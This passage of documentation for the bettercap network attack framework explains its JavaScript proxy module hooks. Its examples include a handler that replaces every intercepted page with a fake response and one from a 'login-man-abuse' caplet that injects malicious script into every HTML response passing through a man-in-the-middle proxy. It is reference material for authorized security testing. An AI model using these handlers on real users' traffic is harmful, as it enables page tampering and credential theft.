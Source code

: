 ```js
function onResponse(req, res) {
  // ...
}

// called every time an unknown session command is typed,
// proxy modules can optionally handle custom commands this way:
function onCommand(cmd) {
  if (cmd == "test") {
    /*
     * Custom session command logic here.
     */

    // tell the session we handled this command
    return true;
  }
}
```

Modules can change the `req` request and `res` response objects, for instance the [web-override.cap caplet](https://github.com/bettercap/caplets/blob/master/web-override/web-override.cap) is using the `onRequest` function in order to override every request before it is executed with a fake response:

```js
function onRequest(req, res) {
  res.Status = 200;
  res.ContentType = "text/html";
  res.Body = readFile("caplets/www/index.html");
  headers = res.Headers.split("\r\n");
  for (var i = 0; i < headers.length; i++) {
    header_name = headers[i].replace(/:.*/, "");
    res.RemoveHeader(header_name);
  }
  res.SetHeader("Connection", "close");
}
```

The [login-man-abuse.cap caplet](https://github.com/bettercap/caplets/blob/master/login-manager-abuse/login-man-abuse.cap) instead will use the `onResponse` handler to inject its malicious javascript file in every html response:

```js
function onResponse(req, res) {
  if (res.ContentType.indexOf("text/html") == 0) {
    var body = res.ReadBody();
    if (body.indexOf("</head>") != -1) {
      res.Body = body.replace(
        "</head>",
        '<script type="text/javascript">' +
          "\n" +
          AbuserJavascript +
          "</script>" +
          "</head>"
      );
    }
  }
}
```
